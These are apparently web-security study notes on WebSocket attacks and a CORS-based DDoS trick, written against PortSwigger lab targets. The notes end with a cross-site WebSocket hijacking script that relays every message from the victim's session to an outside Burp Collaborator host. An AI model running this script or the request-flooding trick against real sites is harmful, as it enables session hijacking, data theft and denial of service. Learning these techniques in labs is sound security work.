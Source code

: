 # WebSockets & WebWorkers 
## WebWorkers + CORS – DDoS Attack
With CORS, if in the response to the first request is either missing the Access-Control-Allow-Origin header or the value is inappropriate, then the browser will refuse to send more requests to the same URL.

To bypass this limitation, we create dummy requests and add fake parameters in the query-string. In doing so, we force the browser to transform each request, therefore identifying it as unique.

`http://victim.site/dossable.php?search=x`

# Websockets

## WebSockets vs HTTP
Some modern web sites use WebSockets. WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a messag.

## Establishing a web socket
WebSocket connections are normally created using client-side JavaScript like the following:
```js
var ws = new WebSocket("wss://normal-website.com/chat");
```

> The wss protocol establishes a WebSocket over an encrypted TLS connection, while the ws protocol uses an unencrypted connection.

### Sample Request 
```
GET /chat HTTP/1.1  
Host: normal-website.com  
Sec-WebSocket-Version: 13  
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==  
Connection: keep-alive, Upgrade  
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2  
Upgrade: websocket
```

### Sample Response
```
HTTP/1.1 101 Switching Protocols  
Connection: Upgrade  
Upgrade: websocket  
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```


## Attacks

### MITM Attacks
In addition, the `WebSocket Protocol` standard defines two schemes for web socket connections: `ws` for unencrypted and `wss` for the ***encrypted**. If the implementation uses the unencrypted channel, we have a `MiTM` issue whereby, anybody on the network can see and manipulate the traffic.

## Manipulating WebSocket messages to exploit vulnerabilities
- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection.
- Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

> The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by tampering with the contents of WebSocket messages.

## Manipulating the WebSocket handshake to exploit vulnerabilities
- Misplaced trust in HTTP headers to perform security decisions, such as the X-Forwarded-For header.
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.

## Cross-site WebSocket hijacking
### Explanation
Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.

> unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

Note: The `Sec-WebSocket-Key` header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.

### Sample exploit script
```html
<script>
websocket = new WebSocket('wss://ac631f5e1f1b3d0080dd77cf00e1008c.web-security-academy.net/chat')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY");
}
function handleReply(event) {
  fetch('https://7iqu3i67oznpep8xuy3o5rsgp7vxjm.burpcollaborator.net/?'+event.data, {mode: 'no-cors'})
}
</script>
```
